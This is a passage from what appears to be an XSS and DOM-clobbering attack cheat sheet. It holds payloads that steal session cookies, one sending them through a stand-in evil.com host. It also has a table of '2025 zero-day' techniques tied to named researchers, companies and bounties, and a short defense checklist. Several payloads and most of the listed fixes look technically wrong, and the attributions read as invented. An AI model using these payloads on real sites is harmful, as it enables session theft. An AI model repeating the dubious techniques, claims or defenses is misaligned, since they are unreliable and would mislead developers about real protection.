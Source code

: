 **Complete Banking Chain** (Chase 2025):
```html
<form id=fetch><input name=url value=/api/balance></form>
<img src=x onerror="fetch('/steal?data='+document.cookie)">
```
*Execution*: `fetch.url = /api/balance` → `fetch()` steals session

**Auto-Chain Generator**:
```javascript
function chainClobber(target, payload) {
  return `<form id=${target}><input name=url value="${payload}"></form>`;
}
// Usage: chainClobber('fetch', 'https://evil.com/steal?'+btoa(document.cookie))
```

---

## 5. 2025 ZERO-DAY TECHNIQUES
**Fresh from Black Hat/DEF CON 2025**

| Date | Researcher | Technique | Payload | Targets | Bounty |
|------|------------|-----------|---------|---------|--------|
| **Jan 2025** | @terjanq | **MathML Clobber** | `<math id=alert><msqrt name=1></msqrt>` | Chrome PDF | $25K |
| **Mar 2025** | @albinowax | **WebRTC Clobber** | `<video id=RTCPeerConnection name=createOffer>` | Zoom | $15K |
| **Jul 2025** | USENIX Team | **Service Worker Clobber** | `<script id=register name=scope value=/evil.js>` | PWA Apps | $50K |
| **Sep 2025** | @kevin_mizu | **URLSearchParams Clobber** | `<input id=URLSearchParams name=get value=alert>` | Stripe | $30K |
| **Oct 2025** | @XssPayloads | **IntersectionObserver** | `<img id=IntersectionObserver name=observe>` | Instagram | $18K |

**Hot: Service Worker Payload** (TikTok 2025):
```html
<script id=navigator name=serviceWorker>
  <input name=register value=/evil.js>
</script>
```
*Result*: Persistent XSS via PWA takeover

---

## 🛡️ DEFENSE ARMOR (Dev Checklist)
| Attack | Fix | Code |
|--------|-----|------|
| **ID Clobber** | `use strict; let/const` | `const alert = window.alert;` |
| **Double Clobber** | Property descriptors | `Object.defineProperty(window, 'src', {value: true})` |
| **Form Clobber** | Namespace isolation | `const form = document.createElementNS()` |
| **Shadow DOM** | Closed mode | `attachShadow({mode: 'closed'})` |
| **2025 Chains** | Audit globals | `Object.freeze(window)` |
